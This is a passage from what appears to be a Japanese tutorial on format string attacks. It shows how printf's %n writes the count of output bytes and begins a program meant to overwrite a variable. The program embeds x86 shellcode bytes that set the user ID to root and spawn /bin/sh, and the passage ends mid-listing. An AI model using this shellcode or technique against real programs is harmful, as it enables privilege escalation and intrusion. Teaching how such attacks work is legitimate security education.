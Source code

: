 ●%nの実際の動き

　%nの実際の動きは、次のようなコードで確認できます。このコードはprintf()
で"Hello World!"という文字列を出力し、その後%nで出力した文字数をtestとい
う変数に格納しています。

\-\-\-\-\-　test.c
\#include <stdio.h>

int main(int argc, char *argv[]){

    int test;
    printf("Hello World!%n\n", &test);
    printf("%d\n", test);

    return 0;
}
\-\-\-\-\-

　%nは指定されたアドレスに値を格納するので、printf()への第2引数にはアドレ
スを示す&を付与しなければなりません。これをコンパイルし実行すると次のよう
な結果が得られます。

\-\-\-\-\-
defolos@Glazheim:\~/Desktop$ gcc \-Wall test.c
defolos@Glazheim:\~/Desktop$ ./a.out 
Hello World!
12
\-\-\-\-\-

　「Hello World!」は12文字ですので、testの中には12が格納されます。つまり、
%nはそれまでに出力したバイト数を書き込むのです。これをうまく利用すれば、
任意の値を書き込むことが可能となります。


### 0x03 変数の書き換え

　では実際に、変数の中身を書き換えてみます。次のコードはゲームプログラム
の骨格です。ゲームをはじめるにあたって、コマンドライン引数でユーザ名を指
定します。最後にユーザ名とスコアを表示します。今回はゲームルーチンが存在
しないので、スコアは常に0になるはずです。

\-\-\-\-\-　game.c
\#include <stdio.h>

int main(int argc, char *argv[]){

    int score;
    char payload[]\=
        "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0"
        "\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d"
        "\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73"
        "\x68";

    char name[150];
    int starge;

    starge \= 1;
    score \= 0;
